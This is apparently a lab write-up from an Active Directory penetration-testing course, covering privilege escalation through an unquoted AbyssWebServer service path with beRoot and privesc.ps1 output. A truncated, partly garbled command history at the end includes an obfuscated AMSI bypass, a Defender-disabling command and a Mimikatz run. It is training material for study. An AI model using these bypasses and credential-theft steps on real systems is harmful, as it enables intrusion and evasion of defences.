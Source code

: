 ```

问题：Trust Direction for the trust between dollarcorp.moneycorp.local and eurocorp.local
答案：Bidirectional（双向信任）


# Learning Objective - 5（1）

## Task

> ● Exploit a service on dcorp-studentx and elevate privileges to local administrator.
> ● Identify a machine in the domain where studentx has local administrative access.
> ● Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

### 提权到local administrator
使用beRoot.exe可以清楚看到AbyssWebServer有重启的权限，并且AbyssWebServer路径没有引号，可以利用提权
```
PS C:\AD> .\beRoot.exe
|====================================================================|
|                                                                    |
|                    Windows Privilege Escalation                    |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|



################ Service ################

[!] Permission to create a service with openscmanager
True

[!] Check services that could its configuration could be modified
Permissions: change config: True / start: True / stop: True
Name: AbyssWebServer
Display Name: Abyss Web Server

Permissions: change config: True / start: True / stop: True
Name: SNMPTRAP
Display Name: SNMP Trap


[!] Path containing spaces without quotes
permissions: {'change_config': True, 'start': True, 'stop': True}
Key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\AbyssWebServer
Full path: C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
Name: AbyssWebServer
Writables path found:
        - C:\WebServer
```


使用privesc.ps1枚举，发现了两组疑似管理员的凭据，同样枚举到AbyssWebServer可以进行“未加引号的服务路径”提权。不过传文件过去的时候exe文件会被杀软杀掉
```
PS C:\AD> . .\privesc.ps1
PS C:\AD> Invoke-Privesc
Date of last applied patch - just use public exploits if not patched:
8/17/2020


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\